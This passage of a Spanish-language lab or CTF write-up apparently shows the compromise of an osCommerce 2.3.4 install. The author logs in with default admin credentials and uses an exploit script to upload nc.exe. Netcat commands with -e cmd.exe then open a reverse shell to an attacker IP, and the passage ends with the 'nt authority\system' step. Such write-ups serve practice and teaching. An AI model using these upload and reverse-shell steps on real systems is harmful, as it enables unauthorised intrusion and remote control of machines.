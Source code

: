 ![20231031165821.png](20231031165821.png)

Ahora con las credenciales `admin:admin` podemos subir un archivo

```java
http://10.10.152.10:8080/oscommerce-2.3.4/catalog/admin/index.php
admin:admin
```
Vamos a subir un `nc.exe` para luego conectarnos con `ncat` 

```python
❯ python2 uploadOsCommerce2.3.4.py -u http://10.10.152.10:8080/oscommerce-2.3.4 --auth=admin:admin -f nc.exe
[+] Authentication successful
[+] Successfully prepared the exploit and created a new newsletter with nID 2
[+] Successfully locked the newsletter. Now attempting to upload..
[*] Now trying to verify that the file nc.exe uploaded..
[+] Got a HTTP 200 Reply for the uploaded file!
[+] The uploaded file should now be available at http://10.10.152.10:8080/oscommerce-2.3.4/catalog/admin/nc.exe
```

Para conectarnos desde la maquina victima a nuestra maquina atacanque se puede ejecutar el sigueinte comando

```java
nc -nv [IP-ATTACKER] [Port] -e cmd.exe
```

### nt authority\system

Ejecutamos `nc.exe` desde la primera shell que obtuvimos

```shell
RCE_SHELL$ C:\xampp\htdocs\oscommerce-2.3.4\catalog\admin\nc.exe -nv 10.9.115.196 443 -e cmd.exe      
```

